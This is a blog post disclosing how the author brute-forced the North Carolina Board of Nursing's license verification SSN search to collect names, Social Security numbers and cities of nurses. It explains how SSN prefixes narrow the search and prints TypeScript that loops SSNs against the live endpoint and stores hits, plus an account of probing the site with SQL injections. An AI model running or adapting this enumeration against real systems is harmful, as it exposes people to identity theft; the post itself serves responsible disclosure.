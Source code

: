 ```yaml
---
layout: project
title: Social security number vulnerability for NC Nurses
thumbnail: images/fetchbyssn.png
stack:
  - TypeScript
slug: ncbon-summary
source: https://github.com/willkrakow
publicId: carbon_1_okmryp
description: State agency website reveals social security numbers for registered nurses in North Carolina
date: 2023-02-21
---
```


A few months back my wife started a new nursing job. Around 10AM on her first day, she called and asked me to look up the renewal deadline for her nursing license. Being the good work-from-home husband that I am, I did some Googling and landed on the [North Carolina Board of Nursing License Verification Portal](https://portal.ncbon.com/LicenseVerification/search.aspx).

The portal offers three ways to search for a license: by name, by license number, and by **social security number**.

![NC Board of Nursing License Verification Portal](/images/ssn_search_ncbon.png)

This last one caught my eye - any time a feature related to SSNs is presented on a publicly facing website there's a possibility for data leaks. And state governments have shown [a lack of diligence](https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/) with respect to their employees SSNs before.

So I began digging, for evidence of data mishandling.

**What I found was that I could brute force the SSN search feature to get a list of names, social security numbers, and cities of residence for a large portion of nurses, nursing assistants, and nurse practitioners registered in the state of North Carolina.**

---

To understand how this was possible - almost trivially so - we first need to examine domain of our search: the 1 billion possible nine-digit social security numbers.

The fact that SSNs serve as our nation's de facto 'password' that citizens must use to navigate legal, financial, and professional systems in the United States is somewhat of a duct-tape job. SSNs were never meant to be such a sensitive, critical token - they were introduced to keep track of income taxes. Cards issued between 1946 and 1972 were labeled ["Not for identification purposes"](https://web.archive.org/web/20120629234649/http://www.americanchronicle.com/articles/view/3911).

![Social Security Card labeled "NOT FOR IDENTIFICATION PURPOSES"](/images/ssn_card.png)

However, in the 1960s, [the government shoehorned them into their current general identification role](https://www.ssa.gov/history/reports/ssnreportc2.html) to simplify digital record-keeping across agencies.

> Ironically, despite serving as a pseudo-password to opening a credit card, verifying a license, or retrieving sensitive medical information, SSNs would fail nearly all password requirement checks on modern websites. 

In 2011, the Social Security Administration [began assigning SSNs in a pseudorandom fashion](https://www.ssa.gov/employer/randomization.html), rather than by state (as it did prior to 1972) or ZIP code (1972-2011) as it had in the past. But for those of us born prior to 2011, a bad actor only needs to know the year and US state in which someone was born to quickly assert the first three numbers (e.g., `123-##-####`), or at least a range of those first three numbers (e.g., `123-##-####` through `125-##-####`).

Even the largest state by population, California, had only 81 possible three-digit prefixes between 1973 and 2011 - that means we can be certain that a person born in California between those years *does not* have an SSN in the remaining **~92%** of all possible combinations.

Additionally, certain numeric sequences are not allowed - such as:
- `666-##-####`
- `##-00-####`
- `##-##-0000`
- `123-45-6789`

North Carolina had 15 prefixes prior to 2011, cutting our search domain by 98.5%. Further, 9 of those prefixes were allotted to the state, but their range was not exhausted before the new randomization process took place, meaning the majority of NC registed SSNs fall in a 6 million number range.

---

So back to my "hacking". I began by digging in the most obvious place: the HTML source and the network requests. I searched for my wife by name, then opened up the dev console and did a quick regex search various forms of her SSN (e.g., `#########`, `###-##-####`, `### ## ####`) - and came up empty. Good!

The network requests were also clean - they *were* sending SSNs as a query parameter to the a `/Search.aspx` endpoint, but it seemed resistant to trivial SQL injections. Another point for the Board.

I had assumed that the endpoint would be rate limited and protected with some sort of malicious threat protection, but even after nearly an hour of entering obvious SQL injections and malformed requests, my IP hadn't been blocked. Maybe I could just brute force this?

To test my theory, I copied the `/Search.aspx` API call as a curl request and sent a few test payloads. And there it was - the API was returning different response statuses for positive results and negative results, and the results list for a given SSN query was serialized in an ASP.NET `_VIEWSTATE` attribute.

To test the extent of this vulnerability I wrote ~50 lines of TypeScript that would loop through a shortened list of 1 million numbers (e.g., `###-00-0000` through `###-99-9999`) and check if the response had results or not.

>Social security numbers issued in North Carolina between 1972 and 2011 fall between `237-##-####` and `246-##-####`, or (less likely) `681-##-####` and `690-##-####`. These are the ranges I tested, with the assumption that about 50% of people working in North Carolina were born there too.

I let that script run for about 20 minutes - with no interval randomization, no IP address shuffling, no proxy server, and managed to construct a list of over 1000 names, SSNs, and cities of residence for the nurses of North Carolina. With a little optimization, I'm confident I could retrieve thousands of results in an equally short amount of time.

Here are the important bits of the code.

<details>
    <summary>Performing a search by SSN</summary>

```typescript
const fetchBySSN = (num: string) => fetch("https://portal.ncbon.com/LicenseVerification/search.aspx", {
        method: "POST",
        headers: {
            "accept": "text/html,application/xhtml+xml",
            "content-type": "application/x-www-form-urlencoded",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`
        },

        "referrerPolicy": "strict-origin-when-cross-origin",
        "referrer": "https://portal.ncbon.com/LicenseVerification/search.aspx",
        body: `__VIEWSTATE=%...txtSSN=${num}&...`,
})

// Negative results contain the string "unable to locate any results...". Positive results will contain an empty ul for the error messages.
```
</details>

<details>
<summary>Fetching the results</summary>

```typescript

const fetchResultsList = () => fetch("https://portal.ncbon.com/LicenseVerification/resultList.aspx", {
        headers: {
            "authority": "portal.ncbon.com",
            "accept": "text/html,application/xhtml+xml",
            "cache-control": "no-cache",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`,
            "referer": "https://portal.ncbon.com/licenseverification/search.aspx",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1"
        }
})
```
</details>

<details>
<summary>Sample response</summary>

```html
...
<tr>
	<td>M**** P*******</td>
	<td>Asheville, NC</td>
	<td>NAII Listing</td>
	<td class="text-right">
        <input type="button" value="View Record" class="btn btn-info btn-xs" onclick="document.location='/LicenseVerification/result.aspx?ID=7****5';" />
    </td>
</tr>
...
```
</details>

<details>
    <summary>Looping through the range of SSNs</summary>

```typescript
const prefixes = ['']

const ssnFetches = async () => {
    const filename = path.join(__dirname, 'results_new.txt');
    fs.appendFileSync(filename, 'Results');

    let totalFound = 0;

    for await (let prefix of prefixes) {
        for (let i = 1; i < 100; i++) {
            let areaCode = `${i}`;
            if (i < 10) {
                areaCode = `0${i}`
            }
            for (let j = 9998; j > 0000; j--) {
                let lastFour = `${j}`
                const fullSSN = `${prefix}-${areaCode}-${lastFour}`
                try {
                    const res = await fetchBySSN(fullSSN);
                    if (res.status !== 200) {
                        console.error("Error fetching")
                        console.error(res.statusText)
                        continue
                    }
                    const text = await res.text()
                    if (text.includes('unable to locate any results matching ')) {
                        console.info(`No matches for ${fullSSN}`)
                        continue;
                    }
                    const resultString = `${fullSSN} - is a nurse\n`

                    const resultResponse = await fetchResultsList(); // Fetch the results HTML using the same session cookie
                    const resultHtml = await resultResponse.text();
                    const document = new jsDom.JSDOM(resultHtml);
                    const nodes = document.window.document.querySelectorAll("div.primaryContent tr"); // Grab the results from the <table>
                    const results = [...nodes]
                        .slice(1) // Remove header row
                        .map(row => ({
                            name: row.children[0].innerHTML,
                            location: row.children[1].innerHTML,
                            ssn: fullSSN,
                        }));
                    fs.appendFileSync(filename, JSON.stringify(results));
                    totalFound += 1;
                    console.log(`total found: ${totalFound}`)
                    console.log(resultString)
                } catch (err) {
                    console.error(err)
                }
            }
        }
    }    
}
```
</details>

---

I reported these findings to the NCBON immediately after discovery and initial documentation. About 24 hours later, I still hadn't heard back, though they had commented out the section of HTML that displayed the SSN search so they clearly read my message.

![SSN Search Tab commented out in HTML. The API enpoint was still open.](/images/ssn_search_in_html_comment_ncbon.png)

However, the API endpoint was still open, and again I was able to exploit it with no problems. I sent another message mentioning this, and a few hours later received a call from the Board's Chief Legal Officer.

The legal officer apologized for the delay, thanked me for being forthcoming, and we set up a time to meet with the IT Director to discuss the issue the following day. I sent over the scripts, payloads, screenshots, and a timeline as well as a summary of my findings and recommendations, and they said they'd get back to me with any questions.

---

It's been about 45 days since that call, which is more than the 30 day disclosure window I thought was adequate. Last I checked, the endpoint was still open.



